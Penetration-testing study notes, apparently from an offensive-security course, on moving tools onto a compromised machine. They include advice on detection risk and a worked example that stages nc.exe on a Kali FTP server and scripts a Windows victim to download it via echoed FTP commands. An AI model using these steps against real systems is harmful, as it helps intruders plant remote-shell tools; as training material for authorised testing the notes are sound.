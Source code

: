 


Post-exploitation of uploading files & tools/ downloading files to the target machine.  
  
*****Meaning, majority of cmds performed will be on the compromised machine, using our Kali as the C2 for downloads
  
These methods could endanger the success of the engagement & should be used w/ caution & only under specific conditions.  
  
- Any post-explioitation attck tools could be abused by malicious parties, putting the client at risk.  
	- It's _extremely important_ to document uploads and remove them after the assessment is completed.  
- Antivirus software can detect our attack tools, quarantine them, and alert a sysadmin.  
	- This could cost us our internal remote shell or, in extreme cases, signal the effective end of the engagement.  
  
As a general rule of thumb, we should always try to use native tools on the compromised system.  
	Uploading addt tools when native ones are insufficient can be done when:  
	- We've determined the risk of detection is minimized, or  
	- When our need outweighs the risk of detection.  
  
  
[Non-Interactive Shell Upgrading](Non-Interactive%20TTY.md)
  
[Setting up pure-ftpd on Linux](pure-ftpd.md)



### Windows-based file transfers:

#### Non-Interactive FTP:  
  
Windows ships w/ a default [FTP](ftp.md) client that can be used for file transfers.  
FTP, however, is an interactive program requiring user input.  

 
Ex: Compromised Win victim connecting to FTP server on Attack/ C2 to download needed binary.  
  
	We'll set up FTP server on kali containing **nc** binary that's needed on Windows victim machine.  
  
  
1. Use setup of FTP server for [Non-Interactive Shell demo](PWK--Concepts--Non-Interactive_Shell.html)  
2. Place a copy of nc.exe in the FTP home directory  
```bash
sudo cp /usr/share/windows-resources/binaries/nc.exe /ftphome/  
sudo systemctl restart pure-ftpd
```

3. On compromised Win machine, craft a _txt_ file w/ list of **ftp** commands needed to download binary  
```bash
echo open <ftp_ip> 21> ftp.txt  
echo USER offsec>> ftp.txt  
echo lab>> ftp.txt  
echo bin >> ftp.txt  
echo quote pasv >> ftp.txt  
echo GET nc.exe >> ftp.txt  
echo bye >> ftp.txt
```
---------***NOTE:** Very important to notice there's no space btw the commands being echoed & the _**>**_ or _**>>**_ for Lines 1-3..  
	- **open**: Initiates FTP connection to the specified IP address  
	- **USER**: Authenticates as _offsec_ w/ password- _lab_  
	- **bin**: Requests a binary file transfer  
	- **quote pasv:** Puts in passive mode - doesn't get stuck at 200 PORT command successful  
	- **GET**: Reqests specific binary  
	- **bye**: Closes the connection.
